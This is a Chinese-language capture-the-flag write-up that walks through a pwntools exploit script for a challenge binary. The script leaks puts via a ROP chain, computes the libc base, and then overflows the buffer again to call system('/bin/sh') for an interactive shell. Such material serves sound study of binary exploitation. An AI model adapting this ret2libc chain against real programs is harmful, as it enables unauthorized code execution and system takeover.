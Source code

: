 现在开始解释exp：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux') #64位文件
#io=remote("challenge.basectf.fun",28242) #远程连接
io=process('./lost') #本地连接
elf=ELF('./lost') #确定要运行的可执行程序，并解析，用elf表示
libc= ELF('./libc.so.6') #确定ibc库并解析，用libc做变量名

#gdb.attach(io) #gdb调试，打不打看看情况
main_addr = elf.symbols['main'] #获取可执行程序中main的函数地址
puts_plt = elf.plt['puts'] #获取可执行程序中puts函数的plt表的地址，plt表地址作用等效于该函数的地址
puts_got = elf.got['puts'] #获取可执行程序中puts函数的got表的地址，用来当作暴露真实地址的参数
# gadget addr #下面是gadget内容
pop_rdi=0x401176 #pop_rdi的地址
ret=0x40101a #ret的地址

io.recv() #如果程序前面有内容，先把前面的都接收了先
payload1 = b'a' * (0x0A+0x8) #填充buf的垃圾数据
payload1 += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr) 
#解释上句话，先用rdi的参数改为puts函数的真实地址(puts_got)
#再调用puts函数(puts_plt)，这时候puts会打印第一参数的地址（正好第一参数为puts_got）
#最后返回到main函数(main_addr)，重新执行这个程序。便于第二次发送payload
io.sendline(payload1) #第一次发送payload

#s = io.recv() #有时候接收puts真实函数的地址之前，会多接收其他的东西，我们要先用recv()过滤掉
puts_addr = u64(io.recv(6).ljust(8, b'\x00')) #接收puts函数的真实地址
print("get the real puts_addr:") #做一个记号，表示接收到了真实地址
print(hex(puts_addr)) #打印出真实地址看看是什么样

puts_libc_addr = libc.sym['puts'] #libc.sym[]用来获取函数偏移量，这里获取了puts函数偏移量
libc_base = puts_addr - puts_libc_addr #libc基址=A函数真实地址-A函数偏移地址
print("get the libc_base:") #做个记号，表示获得了libc基址
print(hex(libc_base)) #打印出基址看看

system_libc_addr = libc.sym['system'] #获取system函数的偏移地址
binsh_libc_addr = next(libc.search(b"/bin/sh")) #获取/bin/sh字符串的偏移地址
#binsh_libc_addr = libc.search(b'/bin/sh').__next__() #这里是另一种写法，和上面的效果一样
system_addr = libc_base+system_libc_addr #计算system函数的真实地址
binsh_addr = libc_base+binsh_libc_addr #计算/bin/sh字符串的真实地址
print(f'system_address:{system_addr} binsh_address:{binsh_addr}') #打印出这两个真实地址看看

payload2 = b'a' * (0xA+0x8) #填充buf的垃圾数据
payload2 += p64(pop_rdi)+p64(binsh_addr)+p64(ret)+p64(system_addr) #正常的栈溢出操作了，这里记得栈平衡
io.sendline(payload2) #第二次发送payload

io.interactive() #接管命令
```

这里要注意一下**本地libc版本和远程libc版本一不一致的问题**
